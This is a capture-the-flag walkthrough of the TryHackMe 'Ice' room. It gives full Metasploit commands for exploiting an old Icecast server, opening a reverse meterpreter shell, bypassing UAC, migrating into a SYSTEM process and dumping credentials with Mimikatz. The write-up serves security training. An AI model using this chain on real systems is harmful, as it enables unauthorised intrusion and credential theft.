# TryHackMe — Ice


> Deploy & hack into a Windows machine, exploiting a very poorly secured media server. A full Metasploit-driven chain: recon → public CVE → exploit → foothold → privilege escalation → SYSTEM → credential looting.



**Room:** [tryhackme.com/room/ice](https://tryhackme.com/room/ice)
**Format:** Guided walkthrough room (Tasks 1–6), fully Metasploit-driven
**Target OS:** Windows 7 Professional (Build 7601, Service Pack 1)

This writeup is built to be readable start to finish — every command is explained in plain terms before showing the output, so it works as a self-contained reference, not just a solve log.

---

## Table of Contents

- [Task 2 — Recon](#task-2--recon)
- [Task 3 — Gain Access](#task-3--gain-access)
- [Task 4 — Escalate](#task-4--escalate)
- [Task 5 — Looting](#task-5--looting)
- [Task 6 — Post-Exploitation (concepts)](#task-6--post-exploitation-concepts)
- [Attack Chain Summary](#attack-chain-summary)
- [Lessons Learned](#lessons-learned)
- [References](#references)

---

## Task 2 — Recon

**Goal:** find out what's actually running on the target before touching anything.

### Full port + service + OS scan

```bash
nmap -sS -sV -O 10.129.148.67
```

**What each flag does:**
- `-sS` — SYN scan ("half-open" scan). Sends a SYN packet and reads the response without completing the full TCP handshake — faster and quieter than a full connect scan.
- `-sV` — version detection. Doesn't just say a port is open, tries to identify *what software* is listening and its version.
- `-O` — OS fingerprinting. Compares subtle quirks in how the target's TCP/IP stack responds to guess the operating system.



**Result:** 10 open ports, most of them standard Windows networking services (RPC, netbios, microsoft-ds, RDP) — plus two that stood out as non-default:
- **5357** — Microsoft HTTPAPI httpd (SSDP/UPnP, fairly normal on Windows)
- **8000** — **Icecast streaming media server** ← the interesting one, not a stock Windows service

> **Q: One of the more interesting open ports is Microsoft Remote Desktop (MSRDP). What port is this open on?**
> **A: `3389`** — the standard RDP port, confirmed open in the scan output above.

### Targeted script scan

```bash
nmap -sC 10.129.148.67
```

`-sC` runs Nmap's default script set — a collection of safe, non-intrusive scripts that pull extra detail: service banners, SMB configuration, hostname, clock skew, and more.



This scan confirmed the OS in more detail (**Windows 7 Professional 7601, Service Pack 1**) and — critically — revealed the machine's **NetBIOS computer name**.

> **Q: What service did nmap identify as running on port 8000? (First word of this service)**
> **A: `Icecast`**

> **Q: What does Nmap identify as the hostname of the machine? (All caps)**
> **A: `DARK-PC`**

---

## Task 3 — Gain Access

**Goal:** turn the interesting service (Icecast) into an actual foothold.

### Researching the vulnerability

Rather than guessing, the room points to looking up known vulnerabilities for Icecast on **CVEDetails**. Icecast running on this box is an old, heavily flawed version with a publicly documented vulnerability.



The page shows a **CVSS Base Score of 7.5 (HIGH)** and breaks that down into sub-scores — including an **Impact Score**, which measures how bad the consequences are *if* the exploit succeeds (separate from how easy it is to pull off).

> **Q: What is the Impact Score for this vulnerability?**
> **A: `6.4`**

> **Q: What is the CVE number for this vulnerability?**
> **A: `CVE-2004-1561`** — a buffer overflow in Icecast's HTTP header parsing (versions 2.0.1 and earlier). Sending a header with too many entries causes the server to write past the end of an internal pointer array, corrupting memory in a way that can be leveraged to run arbitrary code.

### Finding and configuring the Metasploit module

```bash
msfconsole
search icecast
```

`msfconsole` launches Metasploit's interactive console. `search` looks through Metasploit's entire module database by keyword — here, filtering for anything related to "icecast."



> **Q: What is the full path (starting with exploit) for the exploitation module?**
> **A: `exploit/windows/http/icecast_header`**

Selected it with `use 0` (index shortcut) — same as typing the full path. Then ran `show options` to see what the module needs configured before it can run.

> **Q: What is the only required setting which currently is blank?**
> **A: `RHOSTS`** — the target host(s) to attack. Every other required field already had a sane default (RPORT 8000, LHOST/LPORT for the payload's callback).

Set the target and our own listening address, then launched it:

```bash
set RHOSTS 10.129.148.67
set LHOST 192.168.164.247
exploit
```



**Meterpreter session 1 opened.** The exploit worked — Icecast's buffer overflow was successfully leveraged to get a `windows/meterpreter/reverse_tcp` payload running on the target, which phones home to our listener instead of us having to connect in.

**What meterpreter actually is:** it's not just a shell — it's an in-memory payload that gives structured commands (`ps`, `sysinfo`, `migrate`, file transfer, etc.) instead of raw command-line access, and it never touches disk on the target, which makes it both more capable and harder to detect than a plain reverse shell.

---

## Task 4 — Escalate

**Goal:** go from a limited foothold to full Administrator/SYSTEM privileges.

> **Q: What's the name of the shell we have now?**
> **A: `meterpreter`**

### Checking who we landed as

```bash
ps
```

Lists every running process on the target, including which user owns each one.



> **Q: What user was running that Icecast process?**
> **A: `Dark`** — a standard (non-admin) local user, not SYSTEM or Administrator.

### Basic system recon

```bash
sysinfo
```



> **Q: What build of Windows is the system?**
> **A: `7601`**

> **Q: What is the architecture of the process we're running?**
> **A: `x64`** *(the OS itself is x64, even though the meterpreter payload running inside the exploited process is x86 — visible in the `Meterpreter : x86/windows` line)*

### Finding a privilege escalation path

```bash
run post/multi/recon/local_exploit_suggester
```

This module doesn't exploit anything by itself — it checks the target against Metasploit's entire library of known **local** privilege escalation exploits and reports which ones the target's patch level appears vulnerable to. Genuinely useful because manually checking dozens of CVEs one by one would take forever.



> **Q: What is the full path (starting with exploit/) for the first returned exploit?**
> **A: `exploit/windows/local/bypassuac_eventvwr`**

**What a UAC bypass actually does:** User Account Control (UAC) is the Windows prompt that asks "are you sure?" before letting a program make system-level changes — even for users in the Administrators group. `bypassuac_eventvwr` abuses the way Windows' Event Viewer handles a specific registry key to get a program to run with elevated rights **without ever triggering that prompt.** The target user (`Dark`) doesn't even need to be in the Administrators group with elevated *token* for this to matter — it works because Windows' registry-based auto-elevation trusts certain built-in executables (like `eventvwr.exe`) by default.

### Backgrounding the session and configuring the privesc exploit

```bash
background
use exploit/windows/local/bypassuac_eventvwr
show options
```

`background` (or `Ctrl+Z`) drops the current meterpreter session back to the msfconsole prompt *without killing it* — the session stays alive, just parked, so a different module can be configured and pointed at it.

> **Q: What is the name of the option for setting the session to use?**
> **A: `SESSION`**

> **Q: What is the name of the option we need to set for our listener IP once the session is set?**
> **A: `LHOST`**



```bash
set session 1
set LHOST 192.168.164.247
run
```



The output confirms the logic step by step: checks UAC is enabled → confirms `Dark` is part of the Administrators group (which is *why* this specific bypass works — it relies on the user already having admin group membership, just not an elevated token) → configures the payload in the registry → executes it via `eventvwr.exe` → **Meterpreter session 2 opened**, this time with elevated rights.

```bash
getprivs
```

Lists every Windows privilege the current token holds — a long list came back, confirming the elevation worked.

> **Q: What permission listed allows us to take ownership of files?**
> **A: `SeTakeOwnershipPrivilege`**

---

## Task 5 — Looting

**Goal:** get all the way to SYSTEM, then pull credentials off the box.

### Finding a process to "live in"

Even with an elevated token, meterpreter's *own* process may not have the exact same permission context as sensitive system services like `lsass.exe` (Local Security Authority Subsystem Service — the process responsible for authentication on Windows, and the thing credential-dumping tools ultimately need to read from).

```bash
ps
```



> **Q: What's the name of the printer service?**
> **A: `spoolsv.exe`**

**Why this specific process:** it needs to (1) run as **NT AUTHORITY\SYSTEM** — matching what `lsass` needs, (2) be the same **architecture** (x64, matching the OS), and (3) be safe to crash — spoolsv restarts automatically if it dies, so migrating into it (which carries some risk of killing the host process) doesn't risk losing the whole session permanently.

**What "living in" a process means:** meterpreter can inject its code into an already-running process instead of staying in the one it originally landed in. Practically, this loads a small malicious library (a DLL) into that target process's memory space and spawns a new thread inside it to host the meterpreter shell — so from that point on, the shell inherits *that* process's user context and permissions.

```bash
migrate -N spoolsv.exe
getuid
```



> **Q: What user is now listed after migrating and running getuid?**
> **A: `NT AUTHORITY\SYSTEM`** — the highest privilege level on a Windows machine, above even a standard Administrator account.

### Loading Mimikatz

```bash
load kiwi
```

"Kiwi" is the meterpreter-integrated, actively maintained version of **Mimikatz** — the best-known Windows credential-extraction tool, capable of pulling plaintext passwords, hashes, and Kerberos tickets straight out of memory (specifically out of `lsass`'s memory space, which is exactly why the migration step mattered).



> **Q: Which command allows us to retrieve all credentials?**
> **A: `creds_all`**

```bash
creds_all
```



The dump returned several credential formats for the user `Dark`:
- **NTLM hash:** `7c4fe5eada682714a036e39378362bab`
- **wdigest / tspkg / kerberos plaintext password:** `Password01!`

**Why a password showed up in plaintext at all:** modern Windows normally avoids keeping reversible plaintext credentials in memory, but older protocols like **WDigest** (used for some legacy authentication schemes) historically cached the plaintext password in memory for reuse — which is exactly what Mimikatz/Kiwi is built to extract. This is also *why* the room's hint mentions a scheduled task running Icecast as `Dark` — that login event is what populated the credential into memory in the first place, even without an interactive logged-in session.

> **Q: What is Dark's password?**
> **A: `Password01!`**

---

## Task 6 — Post-Exploitation (concepts)

This task doesn't require running anything new — it's a walkthrough of meterpreter's post-exploitation command set via `help`, reinforcing what each capability is *for* even without executing every one.

| Command | What it does |
|---|---|
| `hashdump` | Dumps every password hash stored in the SAM (Security Account Manager) database on the system — every local account's hash at once, not just one user. |
| `screenshare` | Live-streams the remote user's desktop in real time — useful for watching what a user is actively doing, not just taking a single screenshot. |
| `record_mic` | Records audio from any microphone attached to the target system. |
| `timestomp` | Modifies a file's timestamps (created/modified/accessed) — used to complicate forensic timeline analysis. **Ethical note:** never used outside an explicitly authorized pentest scope — it actively works against a defending team's ability to reconstruct what happened. |
| `golden_ticket_create` | Creates a **golden ticket** — a forged Kerberos ticket-granting-ticket that lets an attacker authenticate as *any* user, on *any* machine, in the domain, essentially indefinitely. A major domain-persistence technique. |
| `run post/windows/manage/enable_rdp` | Enables Remote Desktop on the target if it isn't already on — useful once valid credentials (like `Dark`'s) are in hand, since interacting with a workstation visually as its actual user can reveal more than a command-line session alone. |

---

## Attack Chain Summary

```
1. nmap -sS -sV -O → Icecast streaming media server found on port 8000 (unusual for Windows)
2. nmap -sC → confirms Windows 7 SP1 (build 7601), hostname DARK-PC
3. CVEDetails research → CVE-2004-1561, Icecast HTTP header buffer overflow, CVSS 7.5
4. msfconsole → search icecast → exploit/windows/http/icecast_header
5. set RHOSTS/LHOST, exploit → Meterpreter session 1 (user: Dark, standard privileges)
6. run post/multi/recon/local_exploit_suggester → multiple viable local privescs found
7. exploit/windows/local/bypassuac_eventvwr → UAC bypassed → Meterpreter session 2 (elevated)
8. ps → identify spoolsv.exe running as NT AUTHORITY\SYSTEM
9. migrate -N spoolsv.exe → getuid confirms NT AUTHORITY\SYSTEM
10. load kiwi → creds_all → NTLM hash + plaintext password (Password01!) extracted for Dark
```

---

## Lessons Learned

- **An unusual open port is worth researching before anything else.** Icecast on port 8000 immediately stood out precisely *because* it isn't a stock Windows service — non-default services are disproportionately likely to be outdated, misconfigured, or the actual intended entry point on a lab box.
- **CVSS sub-scores tell a more useful story than the headline number.** The overall 7.5 score is useful for prioritization, but the separate Impact vs. Exploitability breakdown explains *why* — high impact (memory corruption → code execution) even though exploitability is moderate.
- **`local_exploit_suggester` is a force multiplier, not a shortcut around understanding.** It found the UAC bypass instantly, but understanding *why* `bypassuac_eventvwr` specifically worked (registry auto-elevation trust + `Dark` already being in the Administrators group) is what makes this reusable knowledge instead of a one-off script run.
- **Migrating into the "right" process matters, not just any elevated one.** SYSTEM-level meterpreter access alone wasn't enough to dump credentials cleanly — matching `lsass`'s architecture and choosing a resilient, auto-restarting process (`spoolsv.exe`) made the credential dump both possible and safe to attempt.
- **Plaintext credentials in memory are usually a legacy-protocol artifact, not a "hack."** WDigest caching the plaintext password is a known Windows behavior on older/unpatched systems — a strong practical argument for why disabling WDigest and patching is a real, meaningful defensive control.
- **Post-exploitation capability goes well beyond "get a shell."** Task 6's command set (screen sharing, mic recording, timestomp, golden tickets) is a good reminder of how much scope a fully escalated Windows session actually has — and why access controls, monitoring, and patching all matter well past the initial foothold.

---

## References

- Room: [TryHackMe — Ice](https://tryhackme.com/room/ice)
- CVE-2004-1561: [CVEDetails](https://www.cvedetails.com/cve/CVE-2004-1561/)
- Metasploit module: `exploit/windows/http/icecast_header`
- Mimikatz / Kiwi: [github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
